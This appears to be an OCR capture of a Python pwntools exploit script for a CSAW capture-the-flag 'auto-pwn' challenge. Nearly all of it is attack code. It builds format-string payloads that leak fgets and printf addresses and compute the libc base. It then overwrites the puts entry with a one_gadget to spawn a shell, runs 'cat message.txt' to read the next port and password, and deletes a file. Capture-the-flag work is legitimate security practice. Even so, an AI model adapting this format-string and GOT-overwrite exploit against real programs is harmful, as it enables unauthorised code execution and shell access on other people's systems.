 ```
    payload = b'++%10$s+' #6
    payload += b'__%11$s_' #7
    payload += b'%' #8
    payload += str(need-0x12).encode('utf-8') #9
    payload += b'c' 
    payload += b'%12$hn' 
    payload = payload.ljust(0x20,b'A')
    payload += p64(fgets)   #10
    payload += p64(printf)   #11
    payload += p64(exit)   #12
    #raw_input("DEBUG")
    p.sendline(payload)

    p.recvuntil("++")
    fgets = u64(p.recv(6).ljust(0x8, b'\x00'))
    p.recvuntil("__")
    printf = u64(p.recv(6).ljust(0x8, b'\x00'))
    success("fgets: " + hex(fgets))
    success("printf: " + hex(printf))

    libc_base = fgets - libc.symbols['fgets']
    success("libc_base: " + hex(libc_base))
    one_gadget = libc_base + 0xd6b9f
    success("one_gadget: " + hex(one_gadget))


    bin_sh1 = 0x7368 
    bin_sh2 = 0x6e2f 
    bin_sh3 = 0x2f6269 

    t1 = one_gadget & 0xff
    t2 = one_gadget & 0xffff00
    t2 = t2 >> 8

    payload = b'%'
    payload += str(t1).encode('utf-8')
    payload += b'c'
    payload += b'%10$hhn'
    payload += b'%'
    payload += str(t2 - t1).encode('utf-8')
    payload += b'c'
    payload += b'%11$hn'
    payload = payload.ljust(0x20,b'A')
    payload += p64(puts)
    payload += p64(puts+1)
    payload += b'\x00'*0x100

    p.sendline(payload)

    p.sendline("cat message.txt")
    p.recvuntil("auto-pwn.chal.csaw.io ")
    port = int(p.recv(5),10)

    p.recvuntil("password ")
    passw = p.recv(32)
    print(passw)
    os.system("rm -r done_file")


p.interactive()

"""
0x3f306 execve("/bin/sh", rsp+0x30, environ)
```